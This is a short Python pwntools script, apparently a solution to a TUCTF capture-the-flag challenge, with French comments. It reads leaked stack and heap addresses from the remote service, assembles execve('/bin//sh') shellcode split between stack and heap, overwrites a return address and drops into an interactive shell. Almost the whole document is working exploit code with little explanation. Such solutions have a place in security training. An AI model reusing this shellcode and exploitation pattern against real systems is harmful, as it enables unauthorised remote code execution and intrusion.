 `#coding: utf-8
from pwn import *

IP = "chal.tuctf.com"
PORT = 30504

r = remote(IP, PORT)

shellcode = ""

def sc(x):
    global shellcode
    shellcode += asm(x)

#Récupère les adresses Leakée
leak_ret_stack = r.readuntil("1:").split("\n")
leak_ret_heap = leak_ret_stack[2]
leak_ret_heap = int(leak_ret_heap, 16)
leak_ret_stack = int(leak_ret_stack[3], 16)

# Construction d'un shellcode adapté au chall
sc("xor eax, eax")
sc("push eax")
sc("push 0x68732f2f")
sc("mov edx, %s" % hex(leak_ret_heap))
sc("jmp edx")
sc("push 0x6e69622f")
sc("xor ecx,ecx")
sc("xor edx,edx")
sc("mov ebx,esp")
sc("mov al,0xb")
sc("int 0x80")

p = p32(leak_ret_stack)

#Envoie de la 2eme partie du shellcode dans la HEAP
r.send(shellcode[15:])
r.read(50)
#Envoie de la 1ere partie du shellcode dans la STACK
r.send(shellcode[0:15])
r.read(50)

log.success("Leak @Stack: %s" % hex(leak_ret_stack))
log.success("Leak @Heap: %s" % hex(leak_ret_heap))

log.info("Shellcode : \n%s" % disasm(shellcode))

r.send(p)
r.read(50)
r.interactive()`
